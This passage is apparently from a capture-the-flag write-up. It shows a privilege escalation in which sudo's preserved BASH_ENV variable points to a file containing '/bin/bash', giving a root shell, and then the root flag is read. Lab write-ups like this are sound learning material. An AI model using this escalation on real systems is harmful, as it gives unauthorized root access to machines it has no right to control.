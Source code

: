 ```bash
cpu time                   (seconds, -t) unlimited
max user processes                  (-u) 15474
virtual memory              (kbytes, -v) unlimited
file locks                          (-x) unlimited

### Displaying loaded kernel modules ###
Module                  Size  Used by
tcp_diag               16384  0
inet_diag              24576  1 tcp_diag
binfmt_misc            28672  1
vsock_loopback         16384  0
vmw_vsock_virtio_transport_common    53248  1 vsock_loopback
vmw_vsock_vmci_transport    36864  1
vsock                  53248  5 vmw_vsock_virtio_transport_common,vsock_loopback,vmw_vsock_vmci_transport
intel_rapl_msr         20480  0
intel_rapl_common      32768  1 intel_rapl_msr

### Checking disk usage for all filesystems ###
Filesystem      Size  Used Avail Use% Mounted on
udev            1.9G     0  1.9G   0% /dev
tmpfs           392M  688K  391M   1% /run
/dev/sda1       3.8G  1.7G  1.9G  48% /
tmpfs           2.0G     0  2.0G   0% /dev/shm
tmpfs           5.0M     0  5.0M   0% /run/lock
tmpfs           392M     0  392M   0% /run/user/1000
```

From the output, we can see that it is checking the system information. <br>
But what we curious is `env_keep+="ENV BASH_ENV"`. <br>

So what if we can hijack this `ENV` or `BASH_ENV` to get the root access? <br>
&rarr; Gonna go for it.

### Hijacking environment variable
First we need to create a `root_shell` file contain `/bin/bash` command.

```bash
hish@environment:~$ echo '/bin/bash' > /tmp/root_shell
```

Then we set the `BASH_ENV` to `/tmp/root_shell` and run the `systeminfo` command.

```bash
hish@environment:~$ sudo BASH_ENV=/tmp/root_shell /usr/bin/systeminfo
root@environment:/home/hish#
```

BOOM! We are root now.

```bash
root@environment:~# ls -la
total 44
drwx------  6 root root 4096 Aug 20 13:01 .
drwxr-xr-x 18 root root 4096 Apr 30 00:31 ..
lrwxrwxrwx  1 root root    9 Apr  7 19:29 .bash_history -> /dev/null
-rw-r--r--  1 root root  571 Apr 11  2021 .bashrc
drwx------  3 root root 4096 Jan 12  2025 .config
-rw-------  1 root root   20 Apr  7 20:34 .lesshst
drwxr-xr-x  3 root root 4096 Jan  8  2025 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r--r--  1 root root   33 Aug 20 13:01 root.txt
drwxr-xr-x  2 root root 4096 Apr 11 00:55 scripts
-rw-r--r--  1 root root   66 Jan 12  2025 .selected_editor
drwx------  2 root root 4096 Jan  6  2025 .ssh
root@environment:~# cat root.txt
f2dc782612101bdcf36c18e406d63d75
```